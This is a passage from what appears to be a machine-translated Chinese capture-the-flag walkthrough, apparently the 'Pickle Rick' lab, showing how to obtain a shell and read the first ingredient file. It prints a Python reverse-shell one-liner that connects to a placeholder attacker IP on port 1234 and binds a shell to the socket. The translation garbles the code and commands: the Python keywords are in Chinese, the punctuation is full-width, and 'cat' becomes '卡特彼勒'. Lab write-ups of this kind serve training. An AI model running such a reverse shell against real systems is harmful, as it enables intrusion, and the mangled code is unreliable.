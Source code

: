 > python3 -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s.connect(“你的 IP”，1234)；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'

记得把“python”改成现在的版本“python3”。

![](img/55832ad8fde8757f1bb001b4fb54da63.png)

我们拿到了。连接已接收。

![](img/57d654bc58f5f06eac0e20c607c92688.png)

**第七步:整理文件。**

现在，我们可以打开文件，查看第一种配料。

> 卡特彼勒 Sup3rS3cretPickl3Ingred.txt

![](img/97eb29bb1c9d63fe3ca2d6ba1e427c11.png)

我们得到了第一个！
